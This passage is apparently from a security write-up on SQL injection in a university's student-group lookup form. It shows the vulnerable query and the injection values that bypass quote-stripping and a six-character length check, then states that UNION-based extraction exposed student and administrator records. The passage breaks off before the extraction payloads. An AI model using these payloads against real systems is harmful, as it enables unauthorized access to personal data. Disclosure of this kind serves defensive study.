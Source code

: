
One case stood out, as it was one of the few with some sort of validation.


It was present in a form used to query a student’s group identifier using their enrollment number and national ID, with the following validations:
* The national ID had both single and double quotes removed.
* The enrollment number length was enforced to be exactly 6 characters.


The server used the following query:


```sql
SELECT g.groupNumber
FROM group g
INNER JOIN student_has_group ag ON ag.groupId_ag = g.groupId
INNER JOIN student a ON a.studentId = ag.studentId_ag
INNER JOIN group_has_course gc ON g.groupId = gc.groupId_gc
WHERE gc.courseId_gc = '$courseId'
  AND a.enrollmentNumber = '$enrollmentNumber'
  AND a.nationalId = '$searchNationalId'
  AND g.enroll_group = 1
GROUP BY groupNumber DESC
```


The validation might appear sufficient; however, the following values for national ID and enrollment number, respectively, still satisfied those constraints.


- `=2 OR 1=1-- -`
- `'OR ''`


Generating a query like the following:


```sql
SELECT g.groupNumber
FROM group g
INNER JOIN student_has_group ag ON ag.groupId_ag = g.groupId
INNER JOIN student a ON a.studentId = ag.studentId_ag
INNER JOIN group_has_course gc ON g.groupId = gc.groupId_gc
WHERE gc.courseId_gc = '$courseId'
  AND a.enrollmentNumber='' OR ''' AND a.nationalId='=2 OR 1=1-- -'
  AND g.enroll_group=1
GROUP BY groupNumber DESC
```


Because the injection occurs in the enrollment number, it injects an "OR" operator whose effective content becomes `'' AND a.nationalId=` due to SQL's quote-doubling escape, allowing arbitrary SQL to be injected in the national ID position without using quotes in that field.


From here, **UNION-based extraction** recovered data for **any student or even administrator account**.


For example, the following national ID and enrollment number values returned complete student records:
